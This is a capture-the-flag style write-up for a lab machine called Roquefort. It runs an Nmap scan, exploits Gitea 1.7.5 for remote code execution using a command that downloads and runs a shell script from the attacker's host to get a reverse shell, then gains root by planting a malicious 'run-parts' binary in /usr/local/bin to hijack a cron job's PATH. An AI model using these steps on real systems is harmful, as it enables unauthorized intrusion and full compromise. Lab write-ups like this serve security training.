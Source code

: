 # Roquefort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.67 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:40 +08
Nmap scan report for 192.168.157.67
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

FTP does not allow for anonymous logins.

### Web Enum --> Gitea RCE

Only port 3000 has a webpage:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

In the bottom left, we can see the version, which is vulnerable to RCE:

```
$ searchsploit gitea 1.7.5
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Gitea 1.7.5 - Remote Code Execution                        | multiple/webapps/49383.py
----------------------------------------------------------- ---------------------------------
```

We can create any account, and then use these settings:

```
USERNAME = "test123"
PASSWORD = "test123"
HOST_ADDR = '192.168.45.196'
HOST_PORT = 3000
URL = 'http://192.168.157.67:3000'
CMD = 'wget http://192.168.45.196:21/shell.sh && bash shell.sh'
```

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Path --> Root

`linpeas.sh` picked up that we can write to the Systemd PATH:

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

This means we just need to find some process from `root` that doesn't use the full PATH. I used `pspy64` to find such a process.

```
2023/07/15 22:55:01 CMD: UID=0    PID=13493  | run-parts --report /etc/cron.hourly 
```

`run-parts` should work.&#x20;

```
chloe@roquefort:/tmp$ which run-parts
/bin/run-parts
```

Since the `/bin` directory is the last in PATH, we can place our malicious binary within `/usr/local/bin` to be executed first.&#x20;

```bash
cd /usr/local/bin
wget 192.168.45.196:21/run-parts
chmod 777 run-parts
```

Then, start a listener port and wait for `root` to execute the binary:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>
